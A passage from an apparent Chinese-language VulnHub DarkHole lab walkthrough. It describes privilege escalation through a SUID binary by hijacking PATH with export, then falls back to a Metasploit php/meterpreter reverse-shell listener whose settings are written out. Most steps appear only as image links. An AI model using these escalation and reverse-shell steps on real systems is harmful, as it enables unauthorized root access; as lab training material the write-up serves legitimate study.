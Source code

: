 

这里还是以蚁🗡的虚拟终端操作，寻找具有SUID权限的命令

![](D:\stu\vulnhub\darkhole靶场\pic-1\18.jpg)



## 提权

#### 环境变量export提权

有一个`toto`命令，去目录下查看

![](D:\stu\vulnhub\darkhole靶场\pic-1\18-1.jpg)

查看文件，发现乱码，可能是可执行文件

ELF代表Executable and Linkable Forma，是一种对可执行文件、目标文件和库使用的文件格式，跟Windows下的PE文件格式类似

![](D:\stu\vulnhub\darkhole靶场\pic-1\18-2.jpg)

可以看到，就是执行`id`命令，并且这里的`id`结果，是`john`的，那么这个命令是否调用的是`/bin`下的`id`命令呢

这里想想一下环境变量，一般都是从环境变量中调用，那么`export`可以设置临时环境，并具有优先权的

`export`命令可用

![](D:\stu\vulnhub\darkhole靶场\pic-1\18-4.jpg)



创建一个文件为`id`，名字要一致，然后输入命令调用`/bin/bash`

![](D:\stu\vulnhub\darkhole靶场\pic-1\18-3.jpg)



当前环境变量未变化，可能是目录的权限问题，切换到`/tmp`或者`/var`下测试

还是不行，这里不理解怎么回事，还是使用`msf`反弹shell进行测试

![](D:\stu\vulnhub\darkhole靶场\pic-1\18-5.jpg)



![](D:\stu\vulnhub\darkhole靶场\pic-1\18-6.jpg)



这里因为测试`mv`命令可用，所以在该目录下载，一般还是在之前的`/upload`下载

![](D:\stu\vulnhub\darkhole靶场\pic-1\18-7.jpg)



`msf`配置参数并开启监听

```shell
set payload php/meterpreter/reverse_tcp
set lhost 192.168.1.16
set lport 9999
run
```

